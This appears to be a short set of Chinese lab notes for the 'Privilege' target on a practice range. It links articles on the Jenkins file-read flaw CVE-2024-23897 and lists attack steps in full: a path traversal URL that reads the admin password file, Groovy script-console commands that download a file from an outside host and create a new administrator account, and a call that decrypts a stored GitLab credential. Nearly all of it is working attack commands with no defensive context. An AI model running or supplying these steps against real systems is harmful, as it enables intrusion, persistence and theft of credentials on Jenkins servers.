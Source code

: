[批量扫描脚本-Jenkins任意文件读取(CVE-2024-23897)](https://mp.weixin.qq.com/s/eES8iWuu1MNJQFUCib5L3Q)
[CVE-2024-23897 Jenkins 任意文件读取一键利用](https://mp.weixin.qq.com/s/fQd193hBrqKGpC-L7kxHBQ)
[CVE-2024-23897 Jenkins 存在文件读取漏洞](https://mp.weixin.qq.com/s/CY4jxfP07HTWjQSMpRtiqQ)
春秋云境 Privilege

# 查找密码
Jenkins 用户名为 admin, 服务密码在
```bash
/tools/content-log.php?logfile=../../../../../../../../../ProgramData/Jenkins/.jenkins/secrets/initialAdminPassword
```
# 命令执行
Dashboard > Manage Jenkins > 脚本命令执行
```bash
println "curl -o C:/Users/1.py http://1.2.3.4:8000/jenkins.py".execute().text
println "net user dotast qwer1234! /add".execute().text  
println "net localgroup administrators dotast /add".execute().text  
```
# 查找凭据
Dashboard > Manage Jenkins > Credentials

gitlab 解明文
```bash
println(hudson.util.Secret.fromString("{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}").getPlainText())
```
